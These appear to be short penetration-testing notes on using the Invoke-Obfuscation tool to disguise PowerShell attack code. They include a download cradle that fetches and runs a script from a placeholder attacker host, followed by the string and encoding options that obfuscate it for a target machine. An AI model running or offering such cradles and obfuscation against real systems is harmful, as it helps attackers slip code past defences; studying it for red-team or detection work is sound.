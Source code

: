 

## Obfuscation

Invoke-Obfuscation = https://github.com/danielbohannon/Invoke-Obfuscation

```
- First download
- Then, find the modules paths
   → $env:PSModulePath
	// in this case C:\users\user\Documents\WindowsPowerShell\Modules
	// After extract to this folder
- Import the module
   → Import-Module Invoke-Obfuscation
- Open it
   → Invoke-Obfuscation
```

### We have several options
```
TOKEN
AST
STRING
ENCODING
COMPRESS
LAUNCHER
```

### SET SCRIPTBLOCK

As an example of a script block we can use a standard Net.WebClient download cradle:
```powershell
SET SCRIPTBLOCK iex (New-Object Net.WebClient).downloadstring("http://<kali ip>/Get-ProcessPath.ps1")
```

### Type of Obfuscation

#### STRING

We are presented with several options For that method:
	1. Concatenate
	2. Reorder
	3. Reverse

In this example **3**
→ 3

> we should get a code obfuscated that we can use in the target machine

#### Encoding

// We are presented with options
1. Encode as ASCII
2. Encode as Hex
3. Encode as Octal
4. Encode as Binary
5. Encrypt as SecureString (AES)
6. Encode as BXOR
7. Encode as Special Characters
8. Encode as Whitespace
